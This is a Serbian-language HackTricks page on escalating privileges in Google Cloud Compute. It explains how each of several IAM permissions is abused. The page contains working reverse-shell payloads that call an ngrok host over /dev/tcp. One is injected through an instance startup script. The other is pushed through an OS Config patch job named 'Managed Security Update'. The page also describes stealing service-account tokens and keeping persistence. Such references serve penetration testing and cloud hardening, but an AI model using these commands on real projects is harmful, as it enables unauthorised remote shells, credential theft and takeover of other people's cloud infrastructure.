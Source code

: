 # GCP - Eskalacija privilegija na računaru

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Računar

Za više informacija o Računaru i VPC (mreži) u GCP proverite:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Imajte na umu da za izvođenje svih napada eskalacije privilegija koji zahtevaju izmenu metapodataka instance (kao dodavanje novih korisnika i SSH ključeva) **potrebno je da imate dozvole `actAs` nad SA vezanim za instancu**, čak i ako je SA već vezan!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Sa tom dozvolom možete **izmeniti** informacije o **metapodacima** instance i promeniti **ovlašćene ključeve korisnika**, ili **kreirati** **novog korisnika sa sudo** privilegijama. Stoga, bićete u mogućnosti da se prijavite putem SSH-a na bilo koju VM instancu i ukradete GCP Servisni Nalog sa kojim se Instanca izvršava.\
Ograničenja:

* Imajte na umu da GCP Servisni Nalozi koji se izvršavaju u VM instancama podrazumevano imaju **veoma ograničen opseg**
* Morate biti **u mogućnosti da kontaktirate SSH** server za prijavu

Za više informacija o tome kako iskoristiti ovu dozvolu proverite:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Takođe možete izvesti ovaj napad dodavanjem novog startup skripta i restartovanjem instance:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Ovo ovlašćenje daje **iste privilegije kao i prethodno ovlašćenje** ali nad specifičnim instancama umesto celog projekta. **Isti eksploiti i ograničenja kao i za prethodni deo važe**.

### `compute.instances.setIamPolicy`

Ovo ovlašćenje će vam omogućiti da **dodelite sebi ulogu sa prethodnim privilegijama** i eskalirate privilegije zloupotrebom istih.

### **`compute.instances.osLogin`**

Ako je **OSLogin omogućen na instanci**, sa ovim ovlašćenjem možete jednostavno pokrenuti **`gcloud compute ssh [INSTANCA]`** i povezati se sa instancom. **Nećete imati root privilegije** unutar instance.

{% hint style="success" %}
Da biste uspešno se prijavili sa ovim ovlašćenjem unutar VM instance, potrebno je da imate `iam.serviceAccounts.actAs` ovlašćenje nad SA povezanom sa VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Ako je **OSLogin omogućen na instanci**, sa ovim ovlašćenjem možete jednostavno pokrenuti **`gcloud compute ssh [INSTANCA]`** i povezati se sa instancom. Imateće **root privilegije** unutar instance.

{% hint style="success" %}
Da biste uspešno se prijavili sa ovim ovlašćenjem unutar VM instance, potrebno je da imate `iam.serviceAccounts.actAs` ovlašćenje nad SA povezanom sa VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Moguće je **kreirati virtuelnu mašinu sa dodeljenim Service Account-om i ukrasti token** servisnog naloga pristupajući metapodacima kako biste eskalirali privilegije na njega.

Skripta za eksploataciju ovog metoda može se pronaći [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Ako imate ovlašćenja **`osconfig.patchDeployments.create`** ili **`osconfig.patchJobs.exec`** možete kreirati [**patch posao ili implementaciju**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Ovo će vam omogućiti da se lateralno krećete u okruženju i ostvarite izvršenje koda na svim računarskim instancama unutar projekta.

Imajte na umu da trenutno **ne trebate `actAs` ovlašćenje** nad SA povezanom sa instancom.

Ako želite ručno eksploatisati ovo, moraćete kreirati ili [**posao za zakrpu**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **ili** [**implementaciju**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Za pokretanje posla za zakrpu koristite:
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Za implementaciju distribucije zakrpa:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Alatka [patchy](https://github.com/rek7/patchy) mogla je biti korišćena u prošlosti za iskorišćavanje ove loše konfiguracije (ali sada ne radi).

**Napadač takođe može zloupotrebiti ovo za postojanost.**

### `compute.machineImages.setIamPolicy`

**Dodelite sebi dodatna ovlašćenja** za sliku računara.

### `compute.snapshots.setIamPolicy`

**Dodelite sebi dodatna ovlašćenja** za snimak diska.

### `compute.disks.setIamPolicy`

**Dodelite sebi dodatna ovlašćenja** za disk.

### Zaobiđite pristupne opsege

Klikom na ovaj link možete pronaći neke [**ideje za pokušaj zaobilaženja pristupnih opsega**](../).

### Lokalno eskaliranje privilegija na GCP instanci računara

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Reference

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
